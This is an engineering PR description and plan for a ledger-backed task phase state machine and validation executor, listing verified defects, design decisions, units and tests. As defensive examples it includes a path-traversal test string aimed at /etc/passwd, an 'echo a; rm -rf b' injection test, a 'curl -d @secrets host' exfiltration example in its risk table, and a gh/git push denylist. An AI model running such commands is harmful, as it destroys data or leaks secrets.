

# feat: MN-1 deterministic phase spine + validation executor

## Summary

Convert ADR-0005's methodology from injected prose into a deterministic,
ledger-backed state machine; give it a validation executor that produces real
evidence; and wire it into the one hook that makes it visible. Along the way,
close eleven verified defects — five of them in `mindnet/tasks.py`, which
landed green earlier today and is reachable **now** through
`hive append mindnet_task`.

The headline finding from planning: as originally specced, the machine was
trivially defeatable. A `satisfy` event was not bound to the task's current
phase, so appending eight `satisfy` events and issuing seven legal forward
transitions walked a task from `brainstorm` to `pr-green` with no work done.
Separately, `can_complete` never read `phase` at all, so `pr-green` — the gate
this whole slice exists to enforce — gated nothing.

**Unit execution order:** U1 → U2 → U3 → U4 → U5 → U9 → U6 → U10 → U7 → U8.
U9 and U10 were added after document review; U-IDs are stable, so they carry
the next unused numbers rather than renumbering the units around them.

---

## Problem Frame

`directives.py:72-101` already mandates the pipeline this plan enforces. It
ships as injected prose, and prose drifts; that drift is the complaint
MindNetwork answers. MN-1 replaces the delivery mechanism, not the methodology.

MN-2's graph layer landed earlier today (`mindnet/tasks.py`, 62 tests green,
full suite 1774). Planning research then verified 18 claimed defects against
the code: **13 confirmed, 5 partial, 0 refuted, 11 reachable today**. Five sit
in the code just shipped.

### What is reachable today (verified, not inferred)

| # | Defect | Evidence |
|---|---|---|
| H20 | `mindnet_task action="phase"` sets any phase with **no transition check** — membership in `PHASES` is the only test; `phase_index()` is defined and never called | `src/mindhive/mindnet/tasks.py:526-528` |
| H21 | `can_complete` never reads `phase`; four conditions, none of them the pipeline | `src/mindhive/mindnet/tasks.py:448` |
| H10 | `triviality_bypass` re-settable on **every** re-declare with no progress check; `can_complete` short-circuits on it *before* the evidence test | `src/mindhive/mindnet/tasks.py:515-516`, `:446-447` |
| H19 | Lifecycle events for an unknown `task_id` fold to a silent no-op; they pass `validate_payload`, ride the hash chain, then vanish from the projection | `src/mindhive/mindnet/tasks.py:519-520` |
| H26b | `reparent` has two gates (task exists, no hierarchy cycle) and no phase, status, or depth check — depth bounds are bypassed entirely | `src/mindhive/mindnet/tasks.py:546-552` |
| H29 | `paths.write_text_atomic` uses a **fixed** `.tmp` sibling; `promptgate._write_manifest` pid-scopes its tmp with a comment saying why | `src/mindhive/paths.py:28` vs `src/mindhive/promptgate.py:319` |
| H17 | `now_iso()` is second-resolution; `read_all` sorts by `(ts, segment_name, line)`. A same-second tie between sessions breaks **alphabetically by session id** | `src/mindhive/events.py:129`, `:229-230` |
| H18 | `ts` is fully caller-controlled with **zero** monotonicity check; backdating is already in production use (`harvest.py:386`, `failures.py:219`) | `src/mindhive/events.py:132-136` |
| H31b | `hive review clear` appends **no event** — it unlinks a sidecar. No event type represents a completed review | `src/mindhive/review.py:121-126` |
| H6 | `hygiene.prune` recursively deletes the whole namespace. `projector.project` then re-creates it and writes STATE.md from an empty `read_all` with no empty-ledger refusal | `src/mindhive/hygiene.py:149`, `src/mindhive/projector.py:191-202` |
| H5 | `detect_project` deliberately collapses every worktree onto the main repo namespace (SOP 10). One ledger and one sidecar serve all worktrees, while branch-specific files exist only on the branch that wrote them | `src/mindhive/paths.py:43-59` |

### Two phases had no verifier at all

- **`execution`** was specced as "a `code_change` event exists for this task."
  `changelog.validate_payload` requires only `{category, text, files}` —
  **there is no `task_id`** (`src/mindhive/changelog.py:169-185`).
- **`audit-code`** was specced as "a review record event." No such event type
  is registered (`src/mindhive/events.py:8-80`), and `hive review clear`
  appends nothing.

Verification **narrowed** three claims, which shrank the work: doc-only tasks
are *not* blocked from `code_change` (the `.py` scope filter governs only
auto-detection; `hive log … --files docs/x.md` works); the fold's `MAX_NODES`
guard **works** (`tasks.py:489`); and trivial entry at `execution` is the
spec's own written exception to the forward-skip ban, not a contradiction.

### Non-goals

MN-1 remains **additive**: injection becomes unconditional and phase-aware, but
cannot refuse a tool call. Compulsion-by-refusal is MN-4.

---

## High-Level Technical Design

The epoch is what makes failure handling real. Without it, `fall_back` is a
no-op loop: the old satisfactions survive, so two forward transitions return
the task to the phase that just failed with no work done.

```mermaid
stateDiagram-v2
    direction LR
    [*] --> brainstorm: declare
    [*] --> execution: declare (triviality_bypass)

    brainstorm --> plan: satisfy@epoch + enter
    plan --> prd: satisfy@epoch + enter
    prd --> execution: satisfy@epoch + enter
    execution --> "audit-bug": satisfy@epoch + enter
    "audit-bug" --> "audit-code": satisfy@epoch + enter
    "audit-code" --> "audit-system": satisfy@epoch + enter
    "audit-system" --> "pr-green": satisfy@epoch + enter
    "pr-green" --> [*]: can_complete

    "audit-bug" --> execution: fall_back (epoch++)
    "audit-code" --> execution: fall_back (epoch++)
    "audit-system" --> plan: fall_back (epoch++)
    "pr-green" --> execution: fall_back (epoch++)

    note right of "audit-bug"
        fall_back increments the task epoch
        and invalidates every satisfaction
        at index >= target. Walking forward
        again needs NEW satisfy events at
        the new epoch.
    end note
```

Authority, not replay order, resolves contradictions — because replay order is
manipulable two ways (H17 second-resolution ties broken by session-id spelling;
H18 caller-supplied `ts` with no monotonicity check):



*Directional guidance for review, not implementation specification.*

---

## Key Technical Decisions

### KTD1. One writer on the phase axis
Remove `phase` from `mindnet_task.ACTIONS`. `mindnet_phase`, gated by the
controller, becomes the only phase writer. **Consequence to carry:** this
leaves `Task.phase` with no writer inside `tasks.py`, so any phase-comparing
check there would compare defaults. Phase-aware checks therefore live in U4
(the controller), not U2. *(Closes H20.)*

### KTD2. `verified_by` is derived, never accepted from a payload
Two contract surfaces, because the append surface and the writer see different
shapes:

- `phases.validate_payload(payload)` — the **append-surface** shape. Rejects
  any payload carrying `verified_by`, so `hive append mindnet_phase` cannot
  self-attest.
- `phases.validate_stored(payload)` — the **writer/fold** shape. Requires
  `verified_by` in `python | agent | human`. The CLI calls this immediately
  before `append_event`, following the roadmap/sop convention.

The appending code path sets the value: a Python check yields `python`, an
explicit `--agent-reported` flag yields `agent`, an interactive TTY
confirmation yields `human`. The honesty rule otherwise rests on a field the
untrusted party fills in. *(Closes H34.)*

### KTD3. Contradictions resolve by authority, not order
For the same `(task, phase, epoch)`: `python` > `agent` > `human`; a Python
`fail` is never overridden by an agent `ok`. A stored `satisfy` lacking
`verified_by`, or carrying an authority below the phase descriptor's required
level, folds as a recorded violation and never as a satisfaction.

Scope note: authority ordering makes MN-1 immune to H17/H18 **for
contradicting records of the same phase and epoch**. It does not make the
ledger globally insertion-ordered — that root cause is deferred (see Scope
Boundaries).

### KTD4. `fall_back` invalidates forward evidence via an epoch watermark
A `fall_back` to phase P increments the task's epoch and invalidates every
satisfaction at index ≥ P. Re-satisfaction requires a new `satisfy` at the new
epoch; an unchanged file re-stat is not sufficient. `fall_back` also requires a
non-empty `detail` naming what failed. *(Closes H7, H8.)*

### KTD5. `satisfy` is bound to the task's current phase and epoch
Accepted only when `phase` equals the task's current phase at that point in the
replay **and** `epoch` equals the fold's current epoch for that task. Anything
else folds as a recorded violation. Without this, eight appends plus seven
legal transitions traverse the whole pipeline with no work. *(Closes H15; the
epoch binding also blocks H18's backdated-resurrection path.)*

### KTD6. Evidence `ref` is worktree-root-relative and containment-checked
Add `paths.worktree_root(cwd=None) -> Path | None` using
`git rev-parse --show-toplevel` with `creationflags=NO_WINDOW` — the idiom
already at `__main__.py:236-244` — returning `None` outside a worktree.
`Path(root, ref).resolve()` must be *contained* in the phase's required
directory; a prefix test passes `docs/superpowers/plans/../../../etc/x`. A
`satisfy` attempted outside a worktree is refused with a reason. Each file
phase gets an explicit directory, including `brainstorm`
(`docs/superpowers/specs/`), which had none and was satisfiable by any
non-empty file. *(Closes H3, H4.)*

### KTD7. File evidence records the resolving worktree root and HEAD sha
A re-stat from a different root or branch reports `unknown` — never `fail`.
`detect_project` intentionally collapses all worktrees onto one namespace
(SOP 10), so a branch-specific plan file legitimately does not exist from
another checkout. Command and human evidence record HEAD sha too: a
satisfaction whose sha ≠ current HEAD is `stale` and does not gate a forward
transition. *(Closes H5, H33.)*

### KTD8. A failed re-stat never mutates the current phase, and never spams the ledger
It marks the phase `stale`, blocking only forward transitions out of phases
at-or-before the stale index. A task at `pr-green` must not silently regress
seven steps with no `fall_back` on the ledger.

Two constraints on the append: it is emitted **only** when the folded record
does not already carry a `fail` at the same `(task, phase, epoch)` for the same
`ref` — otherwise `stale` is reported from the existing record and nothing is
appended. And the append lives in an explicit `controller.restat(task_id)` that
the CLI calls, keeping `can_advance` pure. Re-stat runs in `restat` and
`hive mindnet show` only — **never** on the injection hook path.
*(Closes H1, H2.)*

### KTD9. Sidecar carries a computable freshness stamp, written after the event, pid-scoped tmp
Stamp: `{events_seen, last_ts, segments: {name: [size, mtime_ns]}}`. The
per-segment size/mtime map is what makes the staleness test actually
computable — `events_seen` and `last_ts` alone cannot answer it without reading
the ledger, which is the cost the sidecar exists to avoid. A hook read whose
segment sizes or mtimes diverge from the stamp treats the sidecar as stale.

On stale or unreadable, inject the **phase-agnostic** block only. A
stale-but-parseable entry telling the agent to write code for a task that fell
back to `plan` is worse than no injection, and the fail-open contract covers
faults, not staleness. The writer pid-scopes its own tmp rather than using
`paths.write_text_atomic`, whose fixed `.tmp` sibling two parallel lanes can
tear. *(Closes H27, H28, H29.)*

### KTD10. `triviality_bypass` is first-declare-only
A later declare carrying a different value is ignored and recorded as a
violation. Clearing it on a task at or past `execution` is refused. The fold
derives a trivial task's initial phase as `execution`, and `can_advance`
permits `brainstorm → execution` iff the bypass is set and no bypassed phase
carries a satisfaction. *(Closes H10, H11, H12, H13.)*

### KTD11. `can_complete` requires the terminal phase satisfied
`phase == pr-green` with `pr-green` satisfied, or `triviality_bypass` with
`audit-bug` satisfied. Today `pr-green`'s exit evidence is consumed by nothing:
there is no forward transition out of it and completion ignores phase entirely.
*(Closes H21.)*

### KTD12. Forward transitions require a workable status and a sound subtree
Status must be `pending`, `ready`, or `in_progress`. **`pending` is included
deliberately** — it is the dataclass default for every declared task
(`tasks.py:116`), so omitting it would make the machine unusable: nothing could
ever take its first step. `blocked`, `completed`, and `abandoned` may only fall
back. Any `check_graph` violation blocks forward transitions in the affected
subtree — giving `check_graph` its first consumer anywhere in `src/`.
*(Closes H22, H26.)*

### KTD13. Parent and child phases are coupled
A task may not enter `audit-bug` or later while any descendant's phase index is
below `execution`, nor `pr-green` while any descendant is neither `pr-green`
nor closed. Otherwise a parent reports CI green precisely because its child's
code was never written. *(Closes H25.)*

### KTD14. Orphan bucket
Phase and lifecycle events for undeclared `task_id`s fold into an `orphans`
bucket that `show` and `list` render. *(Closes H19.)*

### KTD15. Executor: argv, not a shell; gate fails **closed**; refusal is never a wedge
`shlex.split(cmd, posix=False)` → argv with `shell=False`, an explicit timeout,
`creationflags=paths.NO_WINDOW`, and exceptions narrowed to
`(OSError, subprocess.SubprocessError)` — mirroring `research.run_experiment`
(`src/mindhive/research.py:120-161`). **`posix=False` is load-bearing on this
machine**: POSIX-mode `shlex` eats backslashes as escapes, so
`pytest C:\Users\hanif\...` silently becomes `pytest C:Usershanif...` and
records a false `result=fail`.

gateguard is a **pre-flight refusal, not an authorization**. Any reason string
refuses; **any exception inside the classifier also refuses**. This inverts
`enforce.evaluate_policies`, which is fail-open by deliberate design
(`except Exception: return None` → allow) and whose destructive tier is `ask`,
not `deny`. Fail-open is correct for an advisory hook and fail-dangerous for an
execution gate.

The executor additionally refuses any argv whose program resolves to `gh` or to
`git push` — the plan claims `pr-green` stays agent-reported and
`GITHUB_DENY` is preserved, and an explicit denylist is what makes that claim
enforced rather than merely asserted.

**Refusal must not wedge a task.** When the gate or the executor refuses,
`audit-bug` may still be satisfied by an explicit
`hive mindnet satisfy --agent-reported`, whose `detail` MUST carry the refusal
reason verbatim — so a classifier false positive cannot deadlock a task, while
the ledger still shows Python did not verify it.

### KTD16. `execution` evidence joins on a new optional `code_change.task_id`, with a producer
Additive and backward-compatible — historical events lack the key and reads
stay total. **The contract alone is not enough**: `hive log` gains a `--task
<id>` flag that writes it, otherwise the field exists and nothing populates it
and `execution` is never satisfiable. Not a blocker for doc-only tasks:
`hive log … --files docs/x.md` already works, since the `.py` scope filter
governs auto-detection only.

### KTD17. `audit-code` and `audit-system` are honestly downgraded to agent-reported
No review event type exists and `hive review clear` appends nothing, so a
Python-verified claim for these phases would be a lie — exactly what KTD2's
honesty rule exists to prevent. Adding a `review_cleared` producer is its own
slice; it is deferred, not quietly assumed.

---

## Implementation Units

### U1. Gate both append surfaces

**Goal** Reject malformed registry payloads at both append surfaces, and stop
`_post_append` discarding structured bodies.

**Scope correction:** this unit does **not** close H10/H19/H20/H21/H26b. Those
exploits use *well-formed* payloads — `{"action":"phase","task_id":"a-1",
"phase":"pr-green"}` is shape-valid — and `validate_payload` checks shape only.
U2 and U4 close them. U1's actual value is blocking malformed rows from the
chain and repairing an endpoint that currently cannot produce a valid registry
payload at all.

**Dependencies** none — start here.

**Files** `src/mindhive/__main__.py`, `src/mindhive/dashboard.py`,
`tests/test_cli.py`, `tests/test_dashboard.py`

**Approach** Add a `mindnet_task` branch to the `cmd_append` dispatch following
the existing shape exactly. **`mindnet_phase` is deliberately not registered
here** — its contract lives in `phases.py`, which U3 creates; registering it
now would import a module that does not exist. U3 adds that branch.
`_post_append` needs **two** changes: it hardcodes `{"text": text}` and
discards any structured body, so validation alone would make it reject every
registry-type append. Construct the real payload from the request body first,
then dispatch validation.

**Patterns to follow** `src/mindhive/__main__.py:43-85` verbatim.

**Test scenarios**
- `hive append mindnet_task '<malformed>' --json` exits 2 with the corrective
  hint on stderr; nothing is appended.
- A well-formed `mindnet_task` append still succeeds and folds.
- `_post_append` with a structured body appends a payload that round-trips
  through `validate_payload` — not `{"text": …}`.
- `_post_append` with a malformed body returns an error and appends nothing.
- Regression: `_post_append` with a plain `decision` still works — the
  `{"text": text}` path must survive for free-text types.

---

### U2. Harden the shipped graph layer

**Goal** Close the defects in `mindnet/tasks.py` that do not require the
controller's phase view.

**Dependencies** U1

**Files** `src/mindhive/mindnet/tasks.py`, `tests/test_mindnet_tasks.py`

**Approach** Remove `phase` from `ACTIONS` (KTD1). Gate `triviality_bypass` to
first declare and derive a trivial task's initial phase as `execution` (KTD10).
Add depth and status checks to `reparent` — **the phase-coupling check moves to
U4**, because KTD1 leaves `Task.phase` with no writer here, so a phase
comparison in `tasks.py` would compare defaults and pass vacuously. Add the
terminal-phase condition to `can_complete` as an **injected predicate**, so
`tasks.py` keeps no import of `controller.py`.

**Execution note** Characterization-first. Write the failing test that
demonstrates each exploit *before* the fix, so the defect is proven rather than
assumed.

**Test scenarios**
- `action="phase"` is rejected by `validate_payload` and ignored by the fold.
- Late-bypass exploit: declare non-trivial → advance → re-declare with
  `triviality_bypass=true` → the flag does **not** change; a violation is
  recorded.
- Clearing the bypass on a task at `execution` or later is refused.
- A trivial task folds to initial phase `execution`.
- `can_complete` refuses a task at `brainstorm` holding `evidence=("x",)`.
- `can_complete` accepts a task at `pr-green` with `pr-green` satisfied —
  driven by a **stub** predicate, since `controller.py` does not exist until
  U4. Do not import it here; that is the point of injecting it.
- `can_complete` with no predicate supplied refuses completion (fail-safe
  default, so U2 shipping ahead of U4 cannot loosen the gate).
- `reparent` that would exceed `MAX_DEPTH` is refused.
- Fold totality survives every change.
- Regression: all 62 existing tests pass, or are updated with the reason
  recorded. (Note: the `triviality_bypass` naming is already correct in code —
  only the origin spec's `trivial` needs the rename, in U8.)

---

### U3. The legend and the evidence contract

**Goal** `mindnet/phases.py` — canonical names, evidence descriptors, and the
two-surface `mindnet_phase` contract.

**Dependencies** U2

**Files** `src/mindhive/mindnet/phases.py`, `src/mindhive/__main__.py`,
`tests/test_mindnet_phases.py`

**Approach** `PHASES` is imported from `tasks.py`, not redefined. Each phase
carries `{kind, required_dir, verified_by}`. Implement both `validate_payload`
(append surface, rejects `verified_by`) and `validate_stored` (writer, requires
it) per KTD2, and register the `mindnet_phase` branch in `cmd_append` — the
half deferred from U1.

**Test scenarios**
- Every phase has an evidence descriptor; no descriptor names a phase outside
  `PHASES`.
- `brainstorm` requires `docs/superpowers/specs/`; `plan` requires
  `docs/superpowers/plans/`; `prd` requires `docs/prds/`.
- `docs/prds/../../../etc/passwd` is rejected by containment, not by prefix.
- `validate_payload` rejects a payload carrying `verified_by`;
  `validate_stored` rejects one lacking it.
- `validate_payload` rejects: unknown action, unknown phase, bad `task_id`,
  unknown evidence kind, missing `epoch`, `fall_back` with no `detail`.
- A grep assertion: no phase-name string literal appears in `src/mindhive/`
  that is not in `PHASES` (enforces invariant 10 rather than hoping for it).

---

### U4. The phase fold and the transition table

**Goal** `mindnet/controller.py` — the state machine.

**Dependencies** U3

**Files** `src/mindhive/mindnet/controller.py`,
`tests/test_mindnet_controller.py`

**Approach** Deterministic total fold over `mindnet_phase` producing
`{task_id: record}` plus an `orphans` bucket. Epoch = count of `fall_back`
events seen for that task; a `satisfy` declaring a different epoch is refused.
Contradictions resolve by authority (KTD3). `can_advance(rec, to_phase)`
returns `(ok, reason)`, stays **pure** (no appends — KTD8), and enforces
forward-+1-with-satisfaction, ungated backward, the trivial-entry exception,
workable status **including `pending`** (KTD12), subtree soundness, descendant
coupling (KTD13), and the reparent phase check deferred from U2.
`controller.restat(task_id)` owns the impure re-stat append.

**Test scenarios**
- **The bypass exploit, explicitly**: eight `satisfy` events then seven `enter`
  attempts — every `enter` past the first is refused; the out-of-phase
  satisfies fold as violations.
- **A freshly declared `pending` task can take its first forward step** — the
  KTD12 regression guard.
- Forward +1 with the current phase satisfied at the current epoch: allowed;
  unsatisfied: refused; satisfied at a *previous* epoch: refused.
- Backward from every phase: always allowed, no evidence required.
- Forward +2 refused; trivial `brainstorm → execution` allowed; trivial entry
  refused when a bypassed phase carries a satisfaction.
- `fall_back` to `execution` from `audit-bug` invalidates both; two subsequent
  `enter`s are refused until new satisfies land. `fall_back` with no `detail`
  is rejected.
- Authority: an agent `ok` and a python `fail` for the same
  `(task, phase, epoch)` resolve to `fail` **regardless of append order and of
  session-id spelling** — assert both orderings.
- Duplicate `satisfy`: first `ok` kept, last `fail` kept.
- `enter` with no prior `declare` lands in `orphans`.
- A `blocked` task cannot advance but can fall back.
- Parent cannot enter `audit-bug` while a descendant is below `execution`, nor
  `pr-green` while a descendant is open and not `pr-green`.
- A subtree with a `check_graph` violation cannot advance.
- `restat` of a now-missing file marks the phase `stale` and does **not** move
  the current phase; two consecutive `restat` calls append exactly **one**
  event.
- `restat` from a different worktree root reports `unknown`, not `fail`.
- Fold totality and determinism; standing canary that an event lacking `epoch`
  and `detail` still folds.

---

### U5. The sidecar and `rebuild`

**Goal** A hook-path-cheap projection that cannot lie about its freshness.

**Dependencies** U4

**Files** `src/mindhive/mindnet/controller.py`,
`tests/test_mindnet_controller.py`

**Approach** `<project>/mindnet/state.json`, stamped
`{events_seen, last_ts, segments: {name: [size, mtime_ns]}}`. Event first, then
sidecar. Pid-scoped tmp. Missing, corrupt, or stale degrades to
rebuild-or-empty and never raises. `hive mindnet rebuild` ships here, because
`rebuild` is what makes the sidecar honest rather than authoritative.

**Test scenarios**
- Round-trip: fold → write → read returns an identical record set.
- Corrupt, missing, and empty sidecars each return empty without raising.
- A stamp whose segment size or mtime diverges reads as **stale**.
- `rebuild` reproduces the sidecar byte-identically from the ledger.
- `rebuild` over a non-empty sidecar from an **empty** ledger refuses (H6's
  post-prune footgun).
- **The durable latency test**: the hook path never calls `events.read_all` —
  assert by monkeypatching `read_all` to raise.
- A loose wall-clock bound as a secondary signal, per the rust-interception
  PRD's precedent so it does not flake in CI.
- Two concurrent writers do not produce a torn file.

---

### U9. Phase-aware injection *(added by document review — the delivery mechanism)*

**Goal** `mindnet/inject.py` — make injection unconditional and phase-aware.
Without this unit the state machine ships and nothing consumes it, and MN-1's
defining claim never becomes true.

**Dependencies** U5

**Files** `src/mindhive/mindnet/inject.py`, `src/mindhive/__main__.py`,
`tests/test_mindnet_inject.py`

**Approach** `extend_hook_context(context, raw, project=None)` mirroring
`enrich.extend_hook_context`'s signature and fail-open contract
(`src/mindhive/enrich.py:456-484`), with one difference: it **builds** a context
dict when handed `None`, because it must fire on clear prompts. Today
`promptgate.hook_context` returns `{}` when the prompt is clear
(`promptgate.py:483-484`), which is exactly why injection is conditional now.
The composition point is `cmd_hook`'s `user_prompt_submit` branch per origin
§6.1 — lift the print out of `if context:`. Reads the sidecar only. Block
content is size-capped (invariant 5 bounds size, not just item count) and
follows R10's inverted precedence: recall history → read code → consult catalog
→ ask the human last.

**Test scenarios**
- Fires on a **clear** prompt — the unconditional property, and the thing that
  distinguishes MN-1 from `promptgate`.
- Handed `None`, returns a well-formed context dict.
- Handed an existing promptgate context, appends without clobbering it.
- A stale or unreadable sidecar yields the **phase-agnostic** block only, never
  a phase-specific directive.
- The block is size-capped.
- `verified_by="agent"` never renders as machine-verified.
- Fail-open: every injected fault returns the input context unchanged.
- The hook path never calls `read_all` (paired with U5's assertion).

---

### U6. The validation executor

**Goal** `mindnet/runner.py` — run a task's `validation_script`, capture
durable evidence.

**Dependencies** U4

**Files** `src/mindhive/mindnet/runner.py`, `tests/test_mindnet_runner.py`,
`scripts/mindnet/mock_validator.py`

**Approach** `shlex.split(cmd, posix=False)` → argv, `shell=False`, explicit
timeout, `paths.NO_WINDOW`, `cwd=paths.worktree_root()`. gateguard pre-flight
refuses on any reason string **and on any classifier exception**; the `gh` /
`git push` denylist refuses too. Output goes through
`runlog.RunLog(run_key=f"mn-{task_id}-{n}")`, opened before the first write so a
killed run's work is already on disk, then `finalise()`, whose absolute path
becomes the `evidence` ref. **`n` is derived** as one plus the number of prior
command-kind `satisfy` records for that `task_id` in the folded controller
state — ledger-derived, monotonic across processes, stable under `rebuild`.
Honor the 1 MiB cap, the in-file truncation marker, and the 2000-char excerpt.

**Execution note** Test-first, driving a real subprocess against a committed
mock script per `tests/test_research.py`'s precedent — the exit-code capture
*is* the behavior under test.

**Test scenarios**
- Exit 0 → artifact written, evidence ref returned, `verified_by="python"`.
- Non-zero exit → `result=fail`, artifact **still** written.
- Timeout → killed at the cap, partial output still durable.
- A destructive command is refused pre-flight; **nothing is executed** — assert
  the mock never ran.
- A classifier exception refuses execution — monkeypatch
  `gateguard.is_destructive_command` to raise.
- `gh pr checks` and `git push` are refused by the denylist.
- A refused run followed by `satisfy --agent-reported` records
  `verified_by="agent"` with the refusal reason verbatim in `detail`.
- `shell=False` asserted; `echo a; rm -rf b` does not spawn a second command.
- **A Windows path argument survives intact** — `posix=False` regression guard.
- Two validation runs for one task write two **distinct** artifacts.
- Output over 1 MiB is capped with the truncation marker inside the file.
- A source grep asserts the module never invokes `gh` or `git push`.

---

### U10. Faculty telemetry *(added by document review)*

**Goal** `mindnet/telemetry.py` — emit `mindnet_activity`, the MN-5 cat feed.
The event type is already registered; without an emitter it has no producer and
MN-5, the next slice, has nothing to render.

**Dependencies** U4

**Files** `src/mindhive/mindnet/telemetry.py`,
`tests/test_mindnet_telemetry.py`

**Approach** One event per faculty waking or going idle, emitted on phase
transitions and validation runs. Faculty names verbatim from the decomposition:
`skill-plugin`, `sop`, `improvements`, `history`, `task-graph`,
`compatibility`, `pr-green`. Ledger-derived, never in-memory. Best-effort: a
telemetry write failure must never disturb a transition.

**Test scenarios**
- A phase transition emits exactly one `mindnet_activity` with a valid faculty.
- A validation run emits `active` then `idle`.
- Faculty names are drawn from the canonical set; an unknown faculty is
  rejected.
- A telemetry append failure does not fail the transition.

---

### U7. `hive mindnet` CLI

**Goal** The operator surface.

**Dependencies** U5, U6

**Files** `src/mindhive/__main__.py`, `tests/test_cli.py`

**Approach** Subparser mirroring `hive roadmap` (`__main__.py:1622-1696`):
`declare`, `enter`, `satisfy`, `fall-back`, `validate`, `restat`, `show`,
`list`, `rebuild`. `satisfy` takes `--agent-reported`; absent it, the value is
derived from whatever check actually ran (KTD2).

**Test scenarios**
- Each subcommand appends the expected event and prints a stable line.
- `satisfy` without `--agent-reported` on a phase Python cannot check is
  refused — it must not silently stamp `python`.
- `show` renders orphans and distinguishes `stale` / `unknown` /
  agent-reported from python-verified satisfactions.
- An illegal transition exits non-zero with the corrective hint.
- `rebuild` reports the record count.

---

### U8. Documentation, contract rows, and the drift guard

**Goal** Amend what this slice contradicts rather than silently contradicting
it — the origin spec's own §10 rule.

**Dependencies** U1–U7, U9, U10

**Files** `docs/superpowers/specs/2026-07-25-mn1-phase-spine-design.md`,
`docs/superpowers/specs/2026-07-25-mindnetwork-architecture-decomposition.md`,
`docs/DATA_MODEL.md`, `src/mindhive/changelog.py`,
`src/mindhive/projector.py`, `src/mindhive/mindnet/phases.py`,
`src/mindhive/mindnet/tasks.py`, `tests/test_changelog.py`,
`tests/test_events.py`, `tests/test_projector.py`

**Approach** **Four** amendments to the origin spec, each recorded as a
revision: the `audit-bug` verifier (§2 says agent-reported, §2.1 says "Python
never spawns", the operator decision says Python executes behind a fail-closed
gate — pick one and delete the other); the `audit-code` verifier (§2 says
`python`, KTD17 downgrades it to agent-reported); `trivial` →
`triviality_bypass`; and `brainstorm` gains its directory constraint. Amend the
decomposition spec too, whose build order this plan's dependency change
falsifies.

Add `ledger_body(payload)` to `phases.py` and `tasks.py` mirroring
`roadmap.ledger_body`, wired into `projector.build_ledger_entries` beside the
existing `sop`/`roadmap` branches — without it, mindnet events render with an
empty body via `payload.get('text','')` and same-second events collide.

Add DATA_MODEL.md §3 payload rows for all three new types — `roadmap` is still
missing its row, which is how the existing drift started. Add optional
`task_id` to `code_change` plus the `hive log --task` producer (KTD16). Add the
drift-guard test.

**Test scenarios**
- The drift guard fails if a semantic type is exempted in one merge list and
  not the other. It will fail immediately on **two** pre-existing omissions —
  `learning` *and* `state_set` — not one. Fix both here and call the behavior
  change out in the change-log entry; scope the guard to types that actually
  reach `dedupe.collapse`.
- Two `mindnet_phase` events in the same second produce two distinct LEDGER
  entries with non-empty bodies.
- `code_change` with and without `task_id` both validate; a historical event
  lacking it still folds. `hive log --task <id>` writes it.
- `Test expectation: none` for the pure-documentation edits.

---

## Scope Boundaries

### Deferred to Follow-Up Work

- **`review_cleared` event type** — unblocks Python verification for
  `audit-code`/`audit-system` (KTD17). Needs its own contract, producer, and
  re-queue semantics: `review.queue` re-fires on the next `session_end`
  touching those files, so the evidence can silently become false.
- **`hive gc` / `projector` empty-ledger guards** — `hygiene.prune` deletes the
  namespace and `projector.project` then writes STATE.md from zero events with
  no refusal (H6). U5 defends only `rebuild`.
- **Sub-second or monotonic `ts`** — the root cause behind H17 and H18, and the
  reason KTD3's immunity is scoped to same-phase/same-epoch contradictions
  rather than global ordering. A repo-wide change affecting every fold and the
  hash chain.
- **Pid-scoped tmp for the other six sidecar writers** — `enforce.py:159`,
  `context.py:140`, `enrich.py:109`, `incidents.py:103`, `plugins.py:728`,
  `reflect.py:234` share the fixed-`.tmp` weakness. U5 fixes only MN-1's.
- **Secret scrubbing on captured output** — validation stdout becomes durable,
  greppable evidence under `runs/`, and a script echoing a token would persist
  it. Out of scope here; worth a redaction pass before MN-5 surfaces artifacts
  in the UI.
- **HEAD-sha staleness churn** — KTD7 marks command evidence stale after any
  commit, so a long task re-validates often. Acceptable for correctness now;
  revisit if it proves noisy.
- **`pr-green` post-states** — a closed, rejected, or conflicted PR has no
  representation, and there is no `merged` phase.

### Out of Scope

- Any PreToolUse deny. MN-4, on measured grounds (~395 ms per hook event,
  ~0.8 s per Bash call).
- Amending `directives.py:39-40` and the *deny* semantics of
  `promptgate.py:477`. Those move with the teeth — MN-4. (The additive
  composition-point edit in `cmd_hook` is **in** scope, at U9.)
- **The cat UI — MN-5 renders it; MN-1 only emits the feed** (U10).
- Method memory (MN-3) and the language-compatibility gate (MN-4).

---

## Assumptions

1. **`can_complete` takes an injected satisfaction predicate** rather than
   importing `controller.py`, keeping the dependency one-directional.
2. **The epoch is derived by the fold** (count of `fall_back`s seen) and echoed
   in the payload for binding, rather than being a caller-owned sequence
   number.
3. **`audit-system` stays agent-reported even after `review_cleared` lands**,
   because thermo-nuclear review is a judgment, not a mechanical check.
4. **`mn-<task_id>-<n>` is the runlog key family** for MN-1. `runlog._safe`
   sanitizes components, so a raw `task_id` is safe to pass.

---

## Risks

| Risk | Mitigation |
|---|---|
| U2 changes behavior of code that shipped green today | Characterization-first: prove each exploit with a failing test before fixing. Full suite green (1774 baseline) is the gate. |
| The executor is the one new place Python runs a user-authored string | argv not shell, fail-closed gate, `gh`/`git push` denylist, timeout, output cap, source-grep test. Capability preserved; only the failure direction changes. |
| **The gate blocks destruction, not exfiltration.** `curl -d @secrets host` is not destructive and passes | Named honestly rather than papered over. The command still comes from the operator's own ledger and runs with their privileges — no privilege boundary is crossed. Revisit with an egress policy if MN-4 widens who can author `validation_script`. |
| The drift guard fails on **two** pre-existing omissions, not one | Expected. Fix `learning` and `state_set` in U8 and call the behavior change out in the change-log. |
| Ten units is a large PR | U1+U2 are independently valuable and independently green; U9+U10 likewise. Three PRs are viable if review prefers. |

---

## Verification

- Full `pytest` suite green — 1774 is the current baseline.
- `hive log <category> "…"` recorded before the work is called done. One entry
  per logical change-set.
- `dependencies = []` unchanged in `pyproject.toml`.
- Each previously-reachable exploit has a test proving it is now refused.
- The hook path provably never calls `events.read_all`.
- Injection provably fires on a **clear** prompt.

---

## Sources & Research

- Origin: `docs/superpowers/specs/2026-07-25-mn1-phase-spine-design.md`
